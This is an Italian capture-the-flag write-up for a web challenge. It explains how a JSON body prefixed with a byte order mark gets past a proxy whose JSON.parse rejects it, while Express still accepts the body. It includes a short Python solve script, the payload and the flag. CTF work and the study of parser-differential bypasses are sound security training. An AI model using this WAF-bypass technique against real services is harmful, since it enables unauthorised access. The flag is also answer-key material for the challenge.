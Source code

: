# Insanity Check

## Setup
```
cd build
docker compose up
```
Ora il sito è disponibile al link: [http://localhost:4567](http://localhost:4567).

## Descrizione
@benjamin ha scoperto i firewall???

Corri a fare first blood: [<url>](<url>).


*Author: [@benjamin](https://github.com/b3nj4m1no)*


## Soluzione
Lo scopo era creare un payload in json che rispecchiasse due condizioni:

* Il `backend`, ovvero un parser JSON di Express, lo doveva riconoscere come un JSON contenente una chiave `dammilaflag`.
* Il `proxy` non doveva riuscire ad analizzarlo come un valore JSON a `JSON.parse(req.body)`.
  
In conclusione, il seguente JSON li soddisfa, dove `\ufeff` è un [BOM (Byte Order Mark)](https://en.wikipedia.org/wiki/Byte_order_mark):
```js
\ufeff{"dammilaflag": true}
```

I framework web spesso consentono l'aggiunta di un BOM all'inizio dei valori JSON. 

Ad esempio, Fastify ed Express controllano un BOM a:

* Fastify: https://github.com/fastify/secure-json-parse/blob/v2.7.0/index.js#L20-L23
* Express: https://github.com/ashtuchkin/iconv-lite/blob/v0.6.3/lib/bom-handling.js#L39-L40

D'altra parte, `JSON.parse` non consente un BOM:
```js
> JSON.parse('{"dammilaflag": true}')
{ dammilaflag: true }
> JSON.parse('\ufeff{"dammilaflag": true}')
Uncaught SyntaxError: Unexpected token '', "{"dammil"... is not valid JSON
```

## Solve

```py
# Author: @benjamin

import requests

url = "http://localhost:4567"

payload = '\ufeff{"dammilaflag": true}'.encode('utf-8')  # UTF-8 BOM

r = requests.post(
    url,
    headers = {"Content-Type": "text/plain"},
    data = payload
)

print(r.text)
```

## Flag
`CodeVinciCTF{n3vEr_tRu5t_4_w4f_:drop_of_blood:}`

